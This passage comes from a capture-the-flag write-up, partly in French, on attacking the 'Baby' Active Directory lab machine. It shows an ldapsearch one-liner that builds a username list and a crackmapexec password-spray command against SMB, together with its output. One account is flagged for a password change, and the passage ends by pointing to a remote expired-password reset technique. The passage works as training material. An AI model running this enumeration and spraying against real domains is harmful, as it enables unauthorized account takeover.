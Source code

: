 ```bash

description: Set initial password to BabyStart123!

[*] Bye!
```

We discovered a password in a description, so here are the steps I had to take afterwards, but I didn't get any results:

- PasswordSpray with the list of users found above, and the password: BabyStart123!
- I had to remove the exclamation mark, see 😁
- Do the same thing with windapsearch (List users)

When I returned to ldapsearch, I noticed that the user enumeration was missing because some attributes were missing.

So we'll have to make another list:
`ldapsearch -x -b "DC=baby,DC=vl" -H ldap://10.10.88.63 "*" | grep "#" | grep -oE '\b\w+\s\w+\b' | sed 's/ /./g'`

Then I had to add Caroline.Robinson to my list and redo the password spray with my new list.

```bash
#crackmapexec smb 10.10.111.217 -u users.txt  -p 'BabyStart123!' --groups
SMB         10.10.111.217   445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         10.10.111.217   445    BABYDC           [-] baby.vl\Guest:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.111.217   445    BABYDC           [-] baby.vl\Jacqueline.Barnett:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.111.217   445    BABYDC           [-] baby.vl\Ashley.Webb:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.111.217   445    BABYDC           [-] baby.vl\Hugh.George:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.111.217   445    BABYDC           [-] baby.vl\Leonard.Dyer:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.111.217   445    BABYDC           [-] baby.vl\Connor.Wilkinson:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.111.217   445    BABYDC           [-] baby.vl\Joseph.Hughes:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.111.217   445    BABYDC           [-] baby.vl\Kerry.Wilson:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.111.217   445    BABYDC           [-] baby.vl\Teresa.Bell:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.111.217   445    BABYDC           [-] baby.vl\Caroline.Robinson:BabyStart123! STATUS_PASSWORD_MUST_CHANGE
```

## Initial Access

Nous remarquons que l’utilisateur Caroline.Robinson a le : STATUS_PASSWORD_MUST_CHANGE. Ce qui veut dire nous pouvons changer de mot de passe de cet utilisateur
Alors la c’est une nouvelle commande que j’ai decouvert sur: https://www.n00py.io/2021/09/resetting-expired-passwords-remotely/
